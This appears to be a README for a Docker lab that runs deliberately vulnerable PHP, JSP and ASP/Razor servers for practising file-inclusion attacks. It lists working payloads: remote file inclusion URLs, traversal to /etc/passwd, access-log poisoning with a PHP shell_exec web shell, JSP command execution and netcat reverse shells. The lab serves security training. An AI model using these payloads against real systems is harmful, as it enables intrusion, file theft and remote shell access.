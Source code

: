 # Installation

- Install Docker
- If you want to use the windows network on a non Windows OS also install [VirtualBox](https://www.virtualbox.org/) 

## Ubuntu

Check if you have docker-machine and docker-compose also installed. 
Notice that if not added to docker group, docker has to be run with sudo.

## Windows

Using [Cmder](https://cmder.net/) on Windows you can run `docker-compose -f lfi_linux_network.yml up --build` to run the linux network. 

# Payloads

For an in-detail-description of the following payloads go to [https://secf00tprint.github.io/blog/payload-tester/lfirfi/en](https://secf00tprint.github.io/blog/payload-tester/lfirfi/en)

## RFI

For the RFI payloads you have to change the IP to the IP from the internal network in every link. Use `docker inspect <docker_attacker_id>` to get the IP.

## PHP

### RFI 

PoCs RFI:

- [http://127.0.0.1:8883/lfi.php?language=http://google.com?q=](http://127.0.0.1:8883/lfi.php?language=http://google.com?q=)

- [http://127.0.0.1:8883/lfi.php?page=http://textfiles.com](http://127.0.0.1:8883/lfi.php?page=http://textfiles.com)

Code running on the victim server:

- [http://127.0.0.1:8883/lfi.php?page=http://172.18.0.5/run_on_victim.txt](http://127.0.0.1:8883/lfi.php?page=http://172.18.0.5/run_on_victim.txt)

Code running on the attacker server:

- [http://127.0.0.1:8883/lfi.php?page=http://172.18.0.5/run_on_attacker.php](http://127.0.0.1:8883/lfi.php?page=http://172.18.0.5/run_on_attacker.php)

### LFI

#### Verification

Upload check.php from attacker-server src folder

then:

- [http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/check](http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/check) or
- [http://127.0.0.1:8883/lfi.php?language=uploads/check](http://127.0.0.1:8883/lfi.php?language=uploads/check)

#### Exploits

#### etc/passwd

[http://127.0.0.1:8883/lfi.php?page=/etc/passwd](http://127.0.0.1:8883/lfi.php?page=/etc/passwd)

By way of experiment add `../` before `etc/passwd` until ...

[http://127.0.0.1:8883/lfi.php?page=../../../etc/passwd](http://127.0.0.1:8883/lfi.php?page=../../../etc/passwd)

#### Log Injection

Get `access.log`: 

Changed here to `access_combined.log`. The used docker image pipes `access.log` to stdout, so the default log of the apache is know changed. (If somebody knows a way to change `access.log`->`stdout` for this image to write both to stdout and in the file help would be appreciated, please mail me):

[http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log](http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log)

Then use:

```
nc -nv 127.0.0.1 8883
<?php echo shell_exec($_GET['cmd']);?>
```

and

[http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log&cmd=id](http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log&cmd=id)

Check for uid in output

#### Shell

- Upload shell.php
- goto: [http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/shell](http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/shell)
- then:

```
docker exec -ti <containerid_attackerserver> /bin/bash
nc 172.18.0.1 4444
```

## JSP

### LFI

Upload runme.jsp from attacker_server_jsp for Remote Code Execution:

- [http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=ls](http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=ls)
- [http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=cat%20/etc/passwd](http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=cat%20/etc/passwd)

### RFI

(You have to adjust ip addresses to the attacker server in the docker network)

- [http://localhost:8881/webapp/?help=http://172.18.0.3:8080/webapp/thiscomesfromhaxxor](http://localhost:8881/webapp/?help=http://172.18.0.3:8080/webapp/thiscomesfromhaxxor)
- [http://127.0.0.1:8881/webapp/?help=http://172.18.0.3:8080/webapp/runme.jsp?exec=ls](http://127.0.0.1:8881/webapp/?help=http://172.18.0.3:8080/webapp/runme.jsp?exec=ls)

## ASP / Razor

Use [https://github.com/StefanScherer/windows-docker-machine](https://github.com/StefanScherer/windows-docker-machine) to get a windows docker environment

Upload the files and call:

`SimpleEchopayload.cshtml`

[http://192.168.99.90:8080/?test=SimpleEchoPayload.cshtml](http://192.168.99.90:8080/?test=SimpleEchoPayload.cshtml)

`WinLfiPayload.cshtml`

[http://192.168.99.90:8080/?test=WinLfiPayload.cshtml](http://192.168.99.90:8080/?test=WinLfiPayload.cshtml)

`CheckPowerShell.cshtml`

[http://192.168.99.90:8080/?test=CheckPowerShell.cshtml](http://192.168.99.90:8080/?test=CheckPowerShell.cshtml)

`RevShell.cshtml`, change IP to attacker server ip in the file

nc -nlvp 4444 at attacker server, then:

[http://192.168.99.90:8080/?test=RevShell.cshtml](http://192.168.99.90:8080/?test=RevShell.cshtml)

